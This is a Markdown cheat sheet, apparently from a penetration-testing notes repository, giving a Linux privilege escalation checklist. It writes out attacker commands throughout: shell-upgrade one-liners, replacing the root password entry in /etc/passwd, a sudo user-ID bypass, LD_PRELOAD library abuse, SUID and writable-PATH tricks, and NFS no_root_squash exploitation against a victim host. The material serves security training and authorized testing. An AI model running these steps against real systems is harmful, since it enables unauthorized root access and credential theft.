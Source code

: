 ## 03a. Linux Privilege Escalation
### Resources
- [Hacktricks Checklist](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist)
- [GTFOBins](https://gtfobins.github.io/)
- [Compiled Kernel Exploits](https://github.com/lucyoa/kernel-exploits)

### Upgrade your shell if it's not fully interactive
- `SHELL=/bin/bash script -q /dev/null`
- `python -c 'import pty;pty.spawn("/bin/bash")'`
- `python -c 'import pty;pty.spawn("/bin/sh")'`
- `python3 -c 'import pty;pty.spawn("/bin/bash")'`
- `python3 -c 'import pty;pty.spawn("/bin/sh")'`
- ^Z and `stty raw -echo && fg`

### Checklist

- **SYSTEM - get system context**
	- `whoami` `id` `hostname`
- **Check for users && writable /etc/passwd**
	- `ls -la /etc/passwd` `cat /etc/passwd`
   		- `openssl passwd -1 -salt hacker hacker` and replace `root` password entry (or delete `x`)
		- `su root` `hacker` 
 	- check for passwords and info from user on /var/logs using `grep iR username`
- **KERNEL - Get kernel version** 
	- `uname -a` or `cat /proc/version` or `cat /etc/issue`
 	- search the result with `searchsploit`
  	- check on [CVE Details](https://www.cvedetails.com/)
  	- automated suggestions with [LES (Linux Exploit Suggester)](https://github.com/The-Z-Labs/linux-exploit-suggester)
  	- [Compiled Kernel Exploits](https://github.com/lucyoa/kernel-exploits)
	- `~/exploits` and Privilege Escalation notes
- **Check for sudo (valid password)** 
	- `sudo -l` `sudo -V` (below 1.28 `sudo -u#-1 /bin/bash`)
 	- if `env_keep+=LD_PRELOAD` exists we can load a custom lib (check repo files)
  		- `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
    	- `sudo LD_PRELOAD=/home/user/ldpreload/shell.so command`
- **Check for SUID Binaries**
	- `find / -perm -u=s -type f 2>/dev/null`
	- `find / -perm -04000 2>/dev/null`
 	- check binaries in [GTFOBins](https://gtfobins.github.io/)
- **Check capabilities**
	- `getcap -r / 2>/dev/null` look for cap_setuid+ep
- **Check cronjobs**
	- `ls -lah /etc/cron*` `cat /var/log/syslog | grep cron` `cat /var/log/cron.log`
	- `grep "CRON" /var/log/syslog` `ls -la /etc/cron.d` `ls -la /etc/cron.hourly`
 	- if the crontab script don't have a explicit path, it will execute from the directory present in crontab's `PATH=` var
- **Check environment**
	- `echo $PATH` `(env || set) 2>/dev/null` `history` `cat ~/.bashrc`
 	- check if you can write at $PATH
  	- copy binaries as bash or cat to new dir with new name
  	- create C script that calls the new bin, compile and `chmod u+s script`
  	- exec script from terminal
- **Check processes**
	- `ps aux` `ps -ef` `watch -n 1 "ps -aux | grep pass"`
- **Check your writable/usable files & file permissions**
	- `find / -writable -type d 2>/dev/null`
	- `find / -perm -u=s -type f 2>/dev/null`
	- `ls -la`
- **Check networking & services running on localhost**
	- `ip a` `netstat` `ss -anp`
- **Check NFS permissions**
	- `cat /etc/exports` if host use file sharing. Shared directory need `no_root_squash` param
 	- on attacker host
  		- `showmount -e VICTIM_IP`
		- `mkdir /tmp/dir`
  		- `mount -o rw VICTIM_IP:/dir_no_squash /tmp/dir`
    	- code c file (check repo)
    	- `gcc file.c -o file -w` this step may need to compile using older libs if victim host request. Use docker.
     	- `chmod +s file` and copy to /tmp/dir
	- on victim host exec the file from shared dir 
